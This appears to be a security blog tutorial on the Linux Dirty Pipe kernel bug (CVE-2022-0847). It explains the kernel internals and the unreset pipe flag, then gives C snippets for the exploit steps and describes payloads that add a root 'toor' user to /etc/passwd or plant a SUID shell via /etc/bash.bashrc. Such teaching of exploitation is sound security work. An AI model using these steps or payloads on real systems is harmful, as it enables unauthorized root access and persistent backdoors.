

<h1>Linux Kernel Dirty Pipe Exploitation (Logic Bug)</h1> 
 
 by: Antonius (w1sdom)
 
 <a href="https://www.bluedragonsec.com">https://www.bluedragonsec.com</a>
 
  <a href="https://github.com/bluedragonsecurity">https://github.com/bluedragonsecurity</a>

Dirty Pipe (CVE-2022-0847) is one of the most significant security vulnerabilities in Linux Kernel 5.8 – 5.15.24, discovered by Max Kellermann in 2022. This vulnerability allows ordinary users (without special privileges) to overwrite data in files that should be read-only.
Understanding Core Concepts

Before discussing Dirty Pipe in detail, here are some Linux kernel internal concepts that need to be understood:

<b>1. Paging</b> 
Paging is a memory management mechanism in the Linux kernel where the memory system divides physical memory into fixed-size small blocks called page frames, and virtual memory is divided into blocks of the same size called pages.
This mechanism allows the kernel to map virtual address space of processes to physical memory in a non-sequential manner, which is crucial for efficiency and security in modern systems.

<b>2. Page (Virtual Memory)</b> 
In Linux, a page is the smallest unit of physical memory management handled by the kernel.
Analogy: RAM is like a giant book. A page is one sheet of paper in that book. The kernel doesn't move data bit by bit, but rather sheet by sheet (page by page).
Generally, on modern system architectures (such as x86_64), the standard size of one page is 4 KB (4096 bytes).

<b>3. Page Cache</b> 
This is a crucial part. Linux doesn't read files directly from disk every time because it's slow. The kernel copies file contents into RAM called the Page Cache.
    <ul>
    <li> When we read a file, the kernel loads it into the Page Cache.</li>
    <li> If another process wants to read the same file, the kernel only provides a reference to the page that already exists in that memory.</li>
   </ul>
Page cache resides in kernel space.

<b>4. Pipe Buffer</b> 
Pipe is an Inter-Process Communication (IPC) mechanism. Internally, the kernel manages pipes using the pipe_inode_info data structure. Data inside a pipe is stored in a "buffer" called Pipe Buffer.
<ul>
    <li> Ring Buffer: The kernel uses a circular (ring) structure to manage this buffer. A ring buffer is a data structure that uses a single array with a fixed size as if its end is connected back to its beginning. This creates a data flow that "rotates" endlessly.</li>
    <li> Flags: Each buffer has attributes or "flags" that determine its behavior (for example, whether the buffer can be merged).</li>
</ul>
Pipe buffer resides in kernel space.

<b>5. Pipe Buffer Flag (PIPE_BUF_FLAG_CAN_MERGE)</b> 
The PIPE_BUF_FLAG_CAN_MERGE flag was introduced in Linux Kernel version 5.8.
This is where the main vulnerability lies. The flag named PIPE_BUF_FLAG_CAN_MERGE.
  <ul>
    <li> Its function: Tells the kernel that new data written to the pipe can be merged into an existing buffer.</li>
    <li> The problem: Before the Dirty Pipe fix, the kernel did not properly clear (reset) this flag when performing splice().</li>
 </ul>

<b>6. Splice</b> 
splice() is a syscall for moving data between two file descriptors without copying the data between kernel space and user space. This is often referred to as a Zero-copy mechanism.
The splice() syscall is the "main actor" in Dirty Pipe:
    <ul>
    <li> Instead of physically copying data, splice() performs optimization by making the Pipe Buffer point directly to the page in the Page Cache.</li>
    <li> This means the pipe doesn't contain a copy of the file data, but only a "pointer" to the file's physical memory.</li>
    </ul>

<b>7. Copy on Write (CoW)</b> 
The Copy-on-Write (CoW) mechanism is a memory management optimization strategy used by the Linux kernel to delay data copying until absolutely necessary.
The relationship between Copy-on-Write (CoW) and the Dirty Pipe exploit (CVE-2022-0847) is about how a small bug in the Linux kernel successfully "tricks" the CoW mechanism, allowing data to be written to files that should be read-only.

<b>8. Dirty Page</b> 
A dirty page is a memory page in RAM that has been modified by an application, but the changes have not yet been written back to secondary storage (such as SSD or hard disk).

<b>Analysis of Dirty Pipe Vulnerability</b>

Dirty Pipe is a type of logic bug in pipe buffer handling in Linux kernel 5.8 through Linux kernel 5.15.24.
The main problem lies in the Pipe mechanism (inter-process communication channel) and how the kernel manages the Page Cache (memory that stores copies of file data from disk).
<b>The core issue is a bug in the PIPE_BUF_FLAG_CAN_MERGE flag.</b>

The main problem lies in the kernel's failure to properly re-initialize this flag (logic bug). Here is the code analysis:
In the copy_page_to_iter_pipe and push_to_pipe functions in the Linux kernel before version 5.16.11, when performing splice operations, the kernel prepares the pipe_buffer structure but forgets to clean the .flags member.

<b>Vulnerable Code Structure:</b> 
<pre>
// Location of problem: fs/pipe.c or include/linux/pipe_fs_i.h
struct pipe_buffer {
    struct page *page;
    unsigned int offset, len;
    const struct pipe_buf_operations *ops;
    unsigned int flags; // <--- THIS FLAG IS NOT RESET
    unsigned long private;
};
</pre>

Code Before Patch (Vulnerable):
<pre>
// lib/iov_iter.c - Before CVE-2022-0847 patch
static size_t copy_page_to_iter_pipe(struct page *page,
    size_t offset, size_t bytes, struct iov_iter *i) {
    // ---------snip-----------
    struct pipe_buffer *buf = &pipe->bufs[head & mask];

    buf->ops = &page_cache_pipe_buf_ops;
    buf->page = page;
    buf->offset = offset;
    buf->len = bytes;
    // PROBLEM: buf->flags NOT TOUCHED AT ALL
    // --------snip----------------------
}
</pre>

Code After Patch (Fixed):
<pre>
buf->ops = &page_cache_pipe_buf_ops;
buf->page = page;
buf->offset = offset;
buf->len = bytes;
buf->flags = 0; // <--- TOTAL RESET TO ZERO
</pre>

Why is buf->flags = 0 better than just turning off a specific flag? Because pipe_buffer is a reused structure. If we only turn off one flag (CAN_MERGE), other garbage flags from previous pipe usage (such as PIPE_BUF_FLAG_GIFT or other custom flags) might still remain and cause strange behavior or new security holes in the future. Setting it to 0 ensures the buffer is in a completely "clean" state.

<b>Why Can This Be Exploited ? </b> 
Here is the Dirty Pipe exploitation flow: 
    1. Pollution Stage: The attacker inserts data into the pipe via write(). A regular write() operation will set buf->flags = PIPE_BUF_FLAG_CAN_MERGE. 
    2. Drain Stage: The attacker reads that data. The buffer is now logically "empty", but its structure still exists in kernel memory with the CAN_MERGE flag still active. 
    3. Splice Stage: When the splice() syscall maps a read-only file to a pipe, the copy_page_to_iter_pipe() function is called. Due to the bug above, it fills buf->page with the original file's memory page but doesn't reset buf->flags. 
    4. Execution: The kernel thinks this file buffer can still be merged. The next write to the pipe won't create a new buffer, but will actually modify directly the memory page (Page Cache) that was mapped earlier. 

At this stage, the attacker's data is already stored in RAM. A page in RAM whose contents differ from what's on disk is called a "Dirty Page".
If this stage is successfully reached, it means the exploitation has succeeded! Once the Page Cache changes, the effect is instant. If we overwrite /etc/passwd in RAM, we can immediately run su root at that very moment.

<b>Dirty Pipe Exploitation</b>

For Dirty Pipe exploitation, we don't need to disable any kernel protections because all kernel protections are irrelevant to prevent this logic bug.
To exploit the Dirty Page logic bug, our exploit will perform the following steps:

Step 1. Prepare the pipe and fill the pipe until full with the goal of triggering the PIPE_BUF_FLAG_CAN_MERGE flag.
<pre>
pipe(p);
int capacity = fcntl(p[1], 1032);
static char dummy[4096];
for (int r = capacity; r > 0; ) {
    int n = r > sizeof(dummy) ? sizeof(dummy) : r;
    write(p[1], dummy, n);
    r -= n;
}
</pre>

<b>Step 2. Empty the pipe.</b> 
<pre>
for (int r = capacity; r > 0; ) {
    int n = r > sizeof(dummy) ? sizeof(dummy) : r;
    read(p[0], dummy, n);
    r -= n;
}
</pre>
<b>Step 3. Use splice() to insert data from the target file into the pipe.</b> 
<pre> 
if (splice(fd, &offset, p[1], NULL, 1, 0) < 0) {
    perror("[-] splice failed");
    return 0;
}
</pre>
<b>Step 4. Write the payload data to the pipe.</b> 
<pre>
write(p[1], payload, strlen(payload));
</pre>

  
<b>Complete Exploit Code for Dirty Pipe Exploitation</b>
Complete exploit code is available at <a href="https://github.com/bluedragonsecurity/dirtypipe2">https://github.com/bluedragonsecurity/dirtypipe2</a>

Note: The complete exploit code contains functions for kernel version validation, pipe preparation, payload injection, and two different exploitation methods targeting /etc/passwd and /etc/bash.bashrc.

<b>Exploitation Methods</b>

The exploit above uses 2 different payloads with the goal that if the first payload fails, it will be chained by the second payload.
 
Payload 1: Writes to /etc/passwd to add a new user named 'toor' with uid 0. If this payload succeeds, we can immediately get root shell.
 
Payload 2: Aims to drop a SUID bash shell at /tmp/x. Specifically for the second payload, it must wait for the root user on the system to login because the payload to drop the SUID shell is injected into /etc/bash.bashrc. In Linux, commands contained in /etc/bash.bashrc are executed by every user who logs into the system at login time.

<b>Testing the Exploit</b>

  
In this example, I used Linux kernel 5.13 running on Lubuntu 20.04.5 in VirtualBox as a guest OS and the host OS is Kali Linux 2025.4.
On the Lubuntu 20.04.5 machine, compile the exploit:

  
<pre>
gcc -o dirtypipe2 dirtypipe2.c
</pre>
 
Run the exploit:
 
<pre>
  ./dirtypipe2
</pre>
 
and finally, we got root shell : 

References
   
    <ul>
    <li> Original disclosure: https://dirtypipe.cm4all.com/</li>
    <li> CVE-2022-0847: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847</li>
    </ul>

    • Linux Kernel patch: commit 9d2231c5d74e13b2a0546fee6737ee4446017903
    • Exploit code: https://github.com/bluedragonsecurity
